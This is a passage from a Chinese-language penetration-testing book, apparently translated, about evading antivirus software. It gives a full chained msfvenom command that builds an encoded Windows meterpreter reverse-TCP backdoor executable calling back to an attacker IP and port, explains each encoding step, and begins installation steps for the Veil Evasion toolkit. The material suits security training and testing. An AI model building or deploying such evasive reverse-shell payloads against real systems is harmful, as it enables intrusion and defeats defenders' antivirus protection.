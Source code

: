 MSFvenom 有更多的选项和开关；前面的表格描述了在创建有效负载时通常使用的内容。

MSFvenom 允许您将多个命令链接在一起。这是通过在每个命令的末尾使用`| \`序列来完成的。

要使用一系列命令创建有效负载，请按照以下步骤进行。注意每个命令末尾的`| \`序列。

从终端窗口，输入以下命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o MSFV-payload.exe

```

当您完成输入上述命令后，您应该得到以下输出：

![](img/6371948d-f93c-4879-b68a-e4bbf90c0ffd.png)

图 1：MSFvenom 命令链

在命令的第一行中，我们正在定义要使用的`meterpreter/reverse_tcp`有效负载。然后我们定义我们攻击主机的 IP（`LHOST`）和端口（`LPORT`）。然后我们使用原始格式（`-f`），并使用`shikata_ga_nai`编码器（`-e`）进行 15 次迭代（`-i 15`）。

在命令的第二行中，我们通过现在定义架构（`-a`），平台，这种情况下是 Windows（`--platform`），以及使用 9 次迭代的`x86/countdown`编码器进一步对原始文件进行编码。

最后，我们通过再次运行`shikata_ga_nai`编码器并使用`-f exe -o`选项创建一个`exe`文件来编译这个。

一旦命令执行，它将创建一个名为`MSFV-payload.exe`的后门文件，存储在`/root/Downloads/`文件夹中。

我们将在本章后面的*测试规避技术*部分测试此文件的检测率。

# Veil Evasion

Veil Evasion 工具套件可用于创建规避常见杀毒软件并生成反向 shell 的 shellcode。

安装 Veil 工具套件可以按以下步骤完成：

1.  在 Kali Linux 中打开一个终端窗口。

1.  使用`apt install -y veil`命令。这将下载 Veil 工具套件，所有依赖项，并为安装做好准备。`-y`命令用于在询问是否要安装软件时简单地预定义`yes`参数。

1.  一切都下载完成后，可以通过运行`veil`命令（参见以下屏幕截图）来开始安装。使用`s`选项进行静默安装。这仍会显示正在安装的组件，但您无需进行任何交互：
